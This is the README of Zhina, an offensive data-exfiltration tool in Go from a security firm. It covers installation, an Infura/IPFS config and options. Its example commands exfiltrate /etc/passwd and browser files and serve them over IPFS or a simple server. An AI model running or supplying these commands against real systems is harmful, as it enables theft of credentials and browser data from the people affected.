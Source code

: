 ### Zhina



A simple app to exfiltration data with some features.

## Overview

A tools for exfiltration with mutliple way.

Brought to you by:

<img src="https://hadess.io/wp-content/uploads/2022/06/logo-white.png" alt="HADESS" width="200"/>

[HADESS](https://hadess.io) performs offensive cybersecurity services through infrastructures and software that include vulnerability analysis, scenario attack planning, and implementation of custom integrated preventive projects. We organized our activities around the prevention of corporate, industrial, and laboratory cyber threats.



## Background

![zhina](zhina.png)


Zhina is a tools for exfiltration information and Dedicated to Mahsa Amini and all Iranian boys and girls


## Installation

You can install a few ways:

1. Download the binary for your OS from https://github.com/HadessCS/zhina/releases
1. or use `go install`
   ```
   go install -v github.com/hadesscs/zhina
   ```
1. or clone the git repo and build
   ```
   git clone https://github.com/hadesscs/zhina.git
   cd zhina
   go get -v
   go build
   ```


## Configuration

Create a configuration file called `config.yaml` an example is available below:
```
---
infura:
  PROJECT_ID: [PROJECT_ID]
  API_SECRET_KEY: [API_SECRET_KEY]
```


When zhina runs it checks the current directory for a `config.yaml`, if you wish to use a different configuration file use the command `--config /path/to/file.yaml`


## Command Line Options
```
--all             For all devices
--config string   Configuration file: /path/to/file.yaml, default = ./config.yaml (default "config.yaml")
--debug           Display debugging information
--device string   What device to query, (default: "all")
--displayconfig   Display configuration
--do string       encode64
--path string     Path to Exfiltrate
--serve type           How Exfiltrate
--version         Display version information
--help            Display help
```




##  Example Usage
| Command | Details |
|:--|:--|
| `zhina --do encode64 --path /etc/passwd` | Exfiltrate password file |
| `zhina --path browser --slice slice1M --serve ipfs` | Exfiltrate Browser Files with 1M slice and serve on ipfs |
| `zhina --path /etc/passwd --slice slice1M --serve simple` | Exfiltrate Browser Files with 1M slice and serve on simple |





